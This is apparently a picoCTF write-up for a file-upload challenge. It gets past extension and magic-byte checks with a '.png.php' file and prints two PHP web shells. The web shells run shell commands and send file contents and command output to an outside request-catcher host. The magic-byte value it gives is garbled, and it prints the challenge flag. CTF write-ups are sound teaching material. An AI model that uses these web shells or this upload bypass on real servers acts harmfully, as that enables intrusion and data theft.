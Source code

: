 # FileUpload and RCE Based CTFs

## PicoCTF: Trickster: File_Upload: RCE :Medium

Got a picoCTF reverse shell challenge caused by malicious file upload. A webpage was given containing a file uplaod form which at the end was founded to contain vulnerabilities. The file extension and the magic bytes were getting checked at the backend. This information was obtained from the /instructions.txt file which we got by accessing /robots.txt file. The robots.txt file also told that there is /upload directory. Any file uploading from the form was getting saved in that directory with the same name which was used while uploading the file. So file which was getting uploaded was easily accessible. 
A php script was written to check whether the command execution was working or not.

```php
<?php
$output=file_get_contents("flag.txt");
file_get_contents("https://falano.requestcatcher.com/$output");
echo "executed";
?>
```
![image](https://github.com/user-attachments/assets/c6aa8a6d-4728-4900-9062-8c3bee080c4c)

It worked so fine. 

So, thought to expand the script to get the reverse shell. But realized that could be difficult to get it as the underlying networking infrastructure is complex(**I'll confirm it later though**). So, wrote a php script that renders html form which on submit sends post request to the same file and the data on post request is executed as shell command and the output is echoed.
```php
PNG
<?php

if (isset($_POST["cmd"])) {
    $cmd = $_POST["cmd"];
    $output = shell_exec($cmd);

    file_get_contents("https://falano.requestcatcher.com/$output");
    echo "executed";
    echo "<br>";
    echo $output;
}

?>

<form action="final2.png.php" method="post">
    <input type="text" name="cmd" />
    <button type="submit">Execute</button>
</form>
```

The filename has to saved with extension of `.png.php` not `.php.png` and the header bytes for pnp images need to be added `89 50 4E r7`

The file got sucessfully uploaded and everthing ahead happened as exected. 
The flag was kept in the parent of /upload dir and was saved with a werid name. Anyways...

**Got the flag***
![image](https://github.com/user-attachments/assets/abda4f33-0c1a-4df5-b6bc-c2c268bd57fe)

**Flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}**

